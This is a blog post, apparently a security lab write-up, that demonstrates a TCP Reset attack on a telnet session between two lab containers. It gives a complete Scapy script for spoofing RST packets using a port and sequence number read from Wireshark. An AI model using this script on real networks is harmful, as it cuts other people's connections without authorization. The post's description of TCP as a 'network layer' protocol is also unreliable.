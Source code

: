 +++
title = "TCP Attack Lab 1 - TCP Reset"
date = "2023-04-26"
description = "Resetting a TCP connection."

tags = ["network","security","writeups",]
+++


We reset a TCP connection between two hosts on our network.

TCP is a critical protocol at the fourth layer of the OSI model of the network stack, the network layer, yet it has some vulnerabilities. We will reset, hijack, and obtain a reverse shell from a `telnet` connection between two unsuspecting users to demonstrate the vulnerabilities.

In the first part of this series, we will conduct a TCP Reset attack on the `telnet` connection.


# Setup

Please see the series [overview post](/blog/posts/tcp-attack-lab/0-overview) for setup instructions.

 
# Resetting a `telnet` Connection

In this demonstration, I will show how an attacker on the same LAN as two machines that have an existing telnet connection can reset the connection.

First, we need to simulate the `telnet` connection between User 1 and User 2. In one terminal window, establish the connection from user 1 to User 2.


# Reconnaissance 

Then, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

!["wireshark init page"](/blog/images/tcp-reset/wireshark-init.png)

Select the bridge interface.

---

In the `telnet` connection, I run a command like `echo hello` to generate some traffic over the `telnet` connection. 

!["victim telnet connection"](/blog/images/tcp-reset/telnet-init.png)

The existing telnet connection with a command executed. This image also shows the initial command used to establish the connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port number and sequence number used in the RST packet we will spoof from the attacker.

!["wireshark screen capture"](/blog/images/tcp-reset/wireshark.png)

Using Wireshark to construct our RST packet.

---


# Running the exploit

The following code will send our RST packet:

```python
from scapy.all import * 
import argparse
 
def spoof_reset_packet(src_port, seq_num):
  user1_ip = "10.9.0.6"
  user2_ip = "10.9.0.7"
  
  user1_port = src_port
  user2_port = 23
  
  ip = IP(src=user1_ip, dst=user2_ip)
  tcp = TCP(sport=user1_port, dport=user2_port, flags="R", seq=seq_num)
  pkt = ip/tcp
  
  print("SENDING RESET PACKET........")
  send(pkt, verbose=0)
   
if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
  parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)

  args = parser.parse_args()
  spoof_reset_packet(args.src_port, args.seq)
```

For convenience, I designed the program to take in arguments for the source port number and the sequence number. I invoke it as follows with the source port and sequence numbers taken from Wireshark.

!["attack"](/blog/images/tcp-reset/reset-attack.png)

Running the attack program with arguments for source port and sequence number.

---

When we go back to the `telnet` connection, we see that the connection was disconnected.

!["reset connection"](/blog/images/tcp-reset/reset-connection.png)

The telnet connection is reset.

---


# That's it!

In this post we learned about one exploit on TCP connections, namely the TCP Reset attack.

In the next part, we will expand on the knowledge gained from conducting the RST attack to hijack the `telnet` connection to run an arbitrary command.


### _Updated: April 26, 2023_